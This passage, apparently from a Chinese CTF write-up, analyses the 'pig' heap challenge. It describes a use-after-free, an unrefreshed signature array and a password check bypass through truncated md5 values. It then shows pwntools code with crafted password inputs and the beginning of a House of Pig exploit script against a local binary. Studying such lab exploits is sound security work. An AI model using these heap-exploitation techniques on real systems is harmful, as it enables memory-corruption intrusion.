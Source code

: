 把这两个结构体补全后，程序的流程就会容易分析许多，可以发现主要的漏洞是在改变猪猪的时候，备份和更新结构体时未对 des_exist_sign[24] 数组更新

![](./figure/backup-operation.png)

![](./figure/copy-operation.png)

要触发这个未更新的漏洞需要更改角色，要通过一个 check_password 的操作。

![](./figure/checkpassword-operation.png)

也就是需要输入三个 md5 值之一的原值，注意到最后一个 md5 被 '\x00' 截断了，所以只要前两位相同即可，可以尝试使用爆破等方法通过此处的检测，下面是一种方法。

```python
def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")
```

总结一下，程序主要的漏洞点是有 UAF，可以 show，可以 edit，分别有 2 和 8 次机会。最大可以申请 0x440 大小的空间，即可以使 chunk 进入 unsorted bin 和 large bin。整个程序中不存在 malloc 函数，全部是 calloc，由此函数的不从 tcache 中取出 chunk 的性质，且不可以申请 fastbin 范围中的 chunk，导致利用比较困难。

#### 通过 House of Pig 实现利用
```python
#!/usr/bin/env python
# coding=utf-8
from pwn import *
context.log_level = 'debug'
context.terminal = ["tmux","splitw","-h"]

def add_message(size,payload):
    sh.sendlineafter("Choice: ",'1')
    sh.sendlineafter("size: ",str(size))
    sh.sendafter("message: ",payload)

def view_message(idx):
    sh.sendlineafter("Choice: ",'2')
    sh.sendlineafter("index: ",str(idx))

def edit_message(idx,payload):
    sh.sendlineafter("Choice: ",'3')
    sh.sendlineafter("index: ",str(idx))
    sh.sendafter("message: ",payload)

def delete_message(idx):
    sh.sendlineafter("Choice: ",'4')
    sh.sendlineafter("index: ",str(idx))

def change_rol(role):
    sh.sendlineafter("Choice: ",'5')
    if (role == 1):
        sh.sendlineafter("user:\n","A\x01\x95\xc9\x1c")
    if (role == 2):
        sh.sendlineafter("user:\n","B\x01\x87\xc3\x19")
    if (role == 3):
        sh.sendlineafter("user:\n","C\x01\xf7\x3c\x32")

sh = process("./pig")
libc = ELF("./libc-2.31.so")

change_rol(2)
```